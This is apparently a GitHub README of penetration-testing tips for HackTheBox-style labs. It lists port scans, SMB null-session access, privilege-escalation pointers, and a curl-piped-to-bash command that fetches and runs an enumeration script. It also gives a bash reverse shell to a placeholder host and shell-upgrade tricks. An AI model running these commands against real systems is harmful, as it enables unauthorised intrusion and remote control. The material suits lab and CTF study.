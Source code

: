 # Usefull-hacking-tips
Some books you want to read:<br>
<ul>
<li><a href="https://www.amazon.com/gp/product/1980901759/ref=as_li_tl?ie=UTF8&camp=1789&creative=9325&creativeASIN=1980901759&linkCode=as2&tag=1333706-20&linkId=b7f2896fbcc265738ba6f2803339d6d2" target="_blank">The Hacker Playbook 3: Practical Guide To Penetration Testing</a></li>
<li><a href="https://amzn.to/2zvdQmI" target="_blank"> Advanced Penetration Testing: Hacking the World's Most Secure Networks</a></li>
  <li><a href="https://amzn.to/2P9TnbS" target="_blank">Social Engineering: The Science of Human Hacking</a></li>
</ul>

usefull tips and tools for hacking
<ul>
  <li> create a file with a range of ip addresses: seq -f "10.10.10.%g" 1 254 > ip.txt
  <li> or use prips 10.0.0.0/23 > ip.txt (first install prips: apt install prips)
  <li>echo  $HISTFILE to check the history file location
</ul>

<b>Port scan commands</b>
<ul>
  <li> nmap -T4 -sV -sT --reason -p1-65535 --vv -oN 'filename' 'IP'
  <li> nmap -sC -sV -oA filename ip - ippsec parameters
  <li> nmap --script vuln 'IP'
  <li> nmap -sV -sC -A -oN filename ip
  <li> unicornscan -r300 -mU 'IP' - UDP scan. USE -mT for TCP
</ul>

<b>IpSec</b>
<ul>
  <li> python -m SimpleHTTPServer PORT
  <li> curl IP:PORT/LinEnum.sh | bash
</ul>

<b>SMB scan</b>
<ul>
  <li> smbclient -N //ip/sharename
</ul>

<b>Priv Esc</b>
<ul>
  <li> sudo -l
  <li> https://github.com/ohpe/juicy-potato  
</ul>

    
<b>Shell</b>
<ul>
  <li> python -c 'import pty; pty.spawn("/bin/sh")'
  <li> python -c 'import pty; pty.spawn("/bin/bash")'
  <li> bash -c 'bash -i >& /dev/tcp/YOURIP/PORT 0>&1'
  <li> when having a shell type CTRL-Z to background the shell. then type stty raw -echo and then fg
</ul>

<b>WPscan</b>
<ul>
  <li> wpscan -u URL -eu -ep -et
</ul>


<b>IPSEC hackthebox</b>
<ul>
  <li> juicypotato windows priv esc - Conceal https://www.youtube.com/watch?v=1ae64CdwLHE
  <li> setuid viewuser - Irked https://www.youtube.com/watch?v=OGFTM_qvtVI
  <li> hackthebox squid server - https://www.youtube.com/watch?v=5wyvpJa9LdU
</ul>

<b>Bloodhound</b>
<ul>
  <li> wget -O - https://debian.neo4j.org/neotechnology.gpg.key | sudo apt-key add -
  <li> echo 'deb https://debian.neo4j.org/repo stable/' | sudo tee /etc/apt/sources.list.d/neo4j.list
  <li> sudo apt-get update
  <li> apt-get install neo4j
  <li> apt-get install bloodhound
  <li> neo4j start (set the admin password in the browser)
  <li> bloodhound
</ul>
